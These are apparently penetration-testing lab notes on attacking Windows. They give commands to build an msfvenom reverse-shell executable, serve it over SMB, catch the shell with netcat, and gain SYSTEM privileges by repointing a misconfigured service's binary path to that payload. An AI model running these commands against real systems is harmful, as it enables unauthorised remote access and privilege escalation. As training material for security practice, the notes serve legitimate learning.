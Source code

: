 # attacking windows

### generating reverse shell

---

On kali:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe
```

```bash
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
```

(this sets an SMB file share service on kali)

On windows:

```bash
copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe
```

(this uses SMB file sharing service to transfer files from Kali)

On kali:

```bash
sudo nc -nvlp 53
```

On windows:

```
C:\PrivEsc\reverse.exe
```

### insecure service permissions

---

Check user account perms on "daclsvc" service

```
accesschk.exe /accepteula -uwcqv user daclsvc
```

It has `SERVICE_CHANGE_CONFIG`, meaning that it has permissions to change the service config.

Check is service is running with SYSTEM privileges

```
sc qc daclsvc
```

Check `SERVICE_START_NAME` field and it says `LocalSystem`

Change binary path name:

```
sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
```

